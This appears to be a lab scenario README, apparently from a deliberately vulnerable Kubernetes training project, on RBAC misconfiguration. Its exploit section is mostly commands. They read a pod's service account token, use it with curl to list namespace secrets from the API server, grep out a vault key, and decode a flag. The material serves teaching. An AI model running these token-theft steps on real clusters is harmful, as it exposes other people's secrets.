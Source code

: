# K02: RBAC least privileges misconfiguration

## Context

Most of the workloads and resources end up having wider privileges than it is intended to have. In this example you'll see how simple misconfiguration can gain access to secrets.

## Exploit

```shell
# Show secrets and pods in namespace
kubectl -n big-monolith get secrets,pods
```

Visit [http://127.0.0.1:1236](http://127.0.0.1:1236)

```shell
{
    ls -l /var/run/secrets/kubernetes.io/serviceaccount; echo;
    cat /var/run/secrets/kubernetes.io/serviceaccount/token; echo;
    cat /var/run/secrets/kubernetes.io/serviceaccount/namespace; echo;
}

{
    export APISERVER=https://${KUBERNETES_SERVICE_HOST};
    export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount;
    export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace);
    export TOKEN=$(cat ${SERVICEACCOUNT}/token);
    export CACERT=${SERVICEACCOUNT}/ca.crt;
}

curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep \"k8svaultapikey\"

echo "azhzLWdvYXQtODUwNTc4NDZhODA0NmEyNWIzNWYzOGYzYTI2NDlkY2U=" | base64 -d; echo
```

## Links

- [Attacking private registry](https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-7/attacking-private-container-registry-in-kubernetes/welcome)